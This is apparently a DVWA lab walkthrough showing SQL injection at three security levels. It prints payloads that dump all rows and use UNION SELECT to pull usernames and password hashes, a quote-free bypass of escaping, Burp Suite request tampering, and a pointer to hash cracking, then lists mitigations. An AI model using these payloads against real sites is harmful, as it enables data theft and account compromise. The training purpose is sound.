 # SQL Injection - DVWA Walkthrough

Objective: 
Demonstrate SQL Injection (SQLi) vulnerabilities in DVWA (Damn Vulnerable Web Application) by retrieving user information and password hashes from the backend database.

## 🔓 Security Level: LOW

DVWA has the function, where user can enter ID and the application retreives First name and Surname that belongs to the ID.

![image](https://github.com/user-attachments/assets/005092a9-d8cf-4a4c-ba74-a35df6a30880)

The backend SQL query used is:

```bash
SELECT first_name, last_name FROM users WHERE user_id = '$id';
```

⚠️ Vulnerability
- No input validation or sanitization.
- Entering a single quote (') causes a SQL error— an indicator of SQLi vulnerability.

SQL Injection Payload

Input:
```
1' OR '1'='1
```

Backend injected SQL query:
```
SELECT first_name, last_name FROM users WHERE user_id = '1' OR '1' = '1';
```
Since '1' = '1' is always true, select statement returns all the values present in the database.

![image](https://github.com/user-attachments/assets/0c4da4b5-a72d-47da-8109-15b00490db87)

---

## 🥷 Extracting Passwords via UNION-Based SQLi

### Step 1: Determine Column Count
First, we need find number of columns present in the `user` table. We can confirm this by passing the following crafted input.

- `' order by 1#` - causes fatal error
- `' order by 2#` - No error
- `' order by 3#` - fatal error

This confirms that there are 2 columns.

### Step 2: Find datatype of the columns.

Test payload:
- `' UNION SELECT 'abc','abc' from users #`

From MariaDB knowledge base, we can figure out the column names.

https://mariadb.com/kb/en/mysql-user-table/

### Step 3: Extract Credentials
Now, use the found column names (user, password) in the union sql injection

```
' UNION SELECT user, password from users #

```

Query returned username and password hashes.

![image](https://github.com/user-attachments/assets/a6ce6916-997a-4980-8cf1-54ac567905fc)

---

## 🧰 Burp suite usage:

- Intercept the request using Burp Suite.
- Modify the input with the UNION payload.
- URL encode if necessary and send the request.

Request from the application is intercepted and sent to repeater.

Payload:
```bash
' UNION SELECT user, password from users #
```
Request:

![image](https://github.com/user-attachments/assets/b7e726d3-8571-43ab-8fc3-cc4415bbb7d1)

The response received:

![image](https://github.com/user-attachments/assets/d7ef67f5-55c8-45d1-a9b5-6438c2934162)


The password hashes can be cracked using tools like Hashcat or online hash databases.


## 🛡️ Security Level: Medium

Here, the query becomes:

```bash
$query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
```

In medium level security, the input id is directly used in the sql statement.
Parameters like single quotes are escaped.

```
    $id = $_POST[ 'id' ];

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);
```

![image](https://github.com/user-attachments/assets/f5e83c21-85de-4c57-8c39-a6974a1d3576)

### 🔐 Workaround: No Quotes Allowed

Craft input without quotes:

```bash
1 or 1=1 UNION SELECT user,password FROM users#
```

This injects successfully, bypassing the escape function:

![image](https://github.com/user-attachments/assets/69a4bc3e-984a-472c-b158-20abcbc9b63e)

This successfully gets injected to the SQL source code, retriving data from users table.

Injected Query:
```bash
SELECT firstname, lastname FROM users WHERE user_id = 1 or 1=1 UNION SELECT user,password FROM users#
```

![image](https://github.com/user-attachments/assets/6d69cc5b-cdf6-41ec-8b0f-13a950b9aa42)

## 🔐 Security Level: High

Use the crafted input similar to the one that we used in security level: Low.

```bash
1' UNION SELECT user,password FROM users#
```

![image](https://github.com/user-attachments/assets/a095e9be-f1aa-4fb0-8db5-0a1861d4e297)


---

Attacker is able to exploit this SQL Injection vulnerability because the input parameters supplied by the users are directly passed to the database to retreive information back to the application. 

---
## 🧩 Conclusion

SQL Injection in DVWA is exploitable at low and medium levels due to:
- Direct concatenation of user inputs into SQL queries.
- Lack of prepared statements or parameterization.

Mitigation Techniques:
- Use prepared statements or ORMs.
- Always validate and sanitize user input.
- Apply principle of least privilege to database users.
